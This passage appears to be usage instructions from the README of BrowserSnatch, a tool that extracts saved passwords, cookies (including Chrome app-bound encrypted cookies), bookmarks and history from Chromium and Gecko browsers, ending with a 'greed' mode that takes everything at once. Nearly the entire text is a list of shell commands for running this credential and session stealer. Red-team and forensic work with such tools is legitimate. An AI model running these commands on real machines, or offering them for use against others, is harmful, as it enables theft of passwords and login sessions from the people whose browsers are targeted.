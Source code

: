 - To Snatch gecko browser passwords, use:
```sh
./BrowserSnatch -pass -g
```

- To Snatch all browser cookies, use:
```sh
./BrowserSnatch -cookies
```

- To Snatch chromium browser cookies, use:
```sh
./BrowserSnatch -cookies -c
```

- To Snatch gecko browser cookies, use:
```sh
./BrowserSnatch -cookies -g
```

- To Snatch chrome app-bound encrypted browser cookies, use:
```sh
./BrowserSnatch -cookies -chrome_app_bound
```

- To Snatch all browser bookmarks, use:
```sh
./BrowserSnatch -bookmarks
```

- To Snatch chromium browser bookmarks, use:
```sh
./BrowserSnatch -bookmarks -c
```

- To Snatch gecko browser bookmarks, use:
```sh
./BrowserSnatch -bookmarks -g
```

- To Snatch all browser history, use:
```sh
./BrowserSnatch -history
```

- To Snatch chromium browser history, use:
```sh
./BrowserSnatch -history -c
```

- To Snatch gecko browser history, use:
```sh
./BrowserSnatch -history -g
```

- To Snatch Everything from Every Browser, use Greed mode:
```sh
./BrowserSnatch -greed
```

--------------------------------------------------
